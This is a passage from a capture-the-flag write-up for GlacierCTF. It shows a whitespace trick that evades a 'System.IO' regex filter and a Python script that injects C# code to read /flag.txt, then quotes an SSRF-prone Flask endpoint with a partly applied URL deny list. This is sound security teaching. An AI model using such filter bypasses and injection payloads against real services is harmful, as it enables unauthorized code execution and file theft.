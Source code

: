 The regex looks for the exact match of `"System.IO"`. Since we know that the grammars on which common programming languages are built typically allow us to insert any mount of whitespaces between keywords, we can bypass this regex just by inserting a whitespace between a keyword (`System` or `IO`) and the dot which separates them.

```py
#!/usr/bin/env python3
import requests

base = 'https://rce-as-a-service-2.ctf.glacierctf.com'

def send_rce(data, code):
    endpoint = base + '/rce'
    payload = { 'Data': data, 'Query': code}
    res = requests.post(endpoint, json=payload)
    return res.text

print(send_rce(["/flag.txt"],
    '(data) => data.Select((d) => System. IO.File.ReadLines(d))'))
```

### Glacier Top News

A Flask API with a Vue front-end is given us. The code is available [here](/writeups/downloads/glacier_glacier_top_news.zip). Note that this challenge is running on Python 2. There are a few routes that are weirdly written, but that is probably due to Vue being used for the front-end.

Then, there is an endpoint that smells of SSRF really badly:

```py
@app.route('/api/get_resource', methods=['POST'])
def get_resource():
    url = request.json['url']

    if(Filter.isBadUrl(url)):
        return 'Illegal Url Scheme provided', 500

    content = urlopen(url)
    return content.read(), 200
```

This seems to use the Filter class, which is defined in `utils.py`:

```py
class Filter:
    BAD_URL_SCHEMES = ['file', 'ftp', 'local_file']
    BAD_HOSTNAMES = ["google", "twitter", "githubusercontent", "microsoft"]

    @staticmethod
    def isBadUrl(url):
        return Filter.bad_schema(url)

    @staticmethod
    def bad_schema(url):
        scheme = url.split(':')[0]
        return scheme.lower() in Filter.BAD_URL_SCHEMES

    @staticmethod
    def bad_urls(url):
        for hostname in Filter.BAD_HOSTNAMES:
            if hostname in url:
                return True

        return False
```
